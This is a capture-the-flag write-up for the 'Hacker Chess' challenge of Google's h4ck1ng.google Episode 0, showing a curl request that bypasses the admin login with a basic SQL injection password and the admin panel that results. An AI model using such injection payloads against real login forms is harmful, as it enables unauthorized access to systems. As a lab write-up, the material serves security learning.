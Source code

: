 # Episode 0: Challenge 1

## Description

> A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.
> 
> Hint: Don't make this game harder than it needs to be. 

A link to an online chess game was attached.

## Solution

The link leads us to an online chess game called "Hacker Chess". In this game we can compete with the computer. 
If it's not hard enough to win as-is, at some point the computer suddenly starts cheating by turning all of its pawns into queens!

On the bottom left corner of the screen, we have a link to the "Master Login":

```html
<div style="display: flex; width: 50%; justify-content: right;"><a style="color: white;" href="admin.php">Master Login</a></div>
```

It's protected by a username and password:

```html
	<form method="post">
		username: <input type="text" name="username"><br>
		password: <input type="password" name="password"><br>
		<input type="submit">
	</form>
```

Luckily, the most basic SQL injection can bypass it:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP000]
└─$ curl 'https://hackerchess-web.h4ck.ctfcompetition.com/admin.php' -X POST --data-raw 'username=admin&password=%27+or+%27%27%3D%27' -L -c cookiejar

<html>
<head>
        <title>Secret Admin Panel</title>

<!-- ... --->

</head>
<body>


        <h1>Change config of the Chess AI!</h1>
                <form method="POST">
                Thinking Time: <input type="number" name="thinking_time" value=""><br/>
          AI Queen Cheats: <input type="radio" id="cheats_enabled" name="cheats_enabled" value="1"> <label for="cheats_enabled">Yes</label> <input type="radio" id="cheats_enabled" name="cheats_enabled" value="0"> <label for="cheats_enabled">No</label><!-- Currently set to:  -->
                <input type="submit">
        </form>
        </body>
</html>
```

In the admin panel, it looks like we can limit the computer's thinking time AND disable cheats. So, we provide a negative thinking time to force the computer to make rash decisions and disable the cheats, making it much easier to beat the AI:

![](images/chess.png)
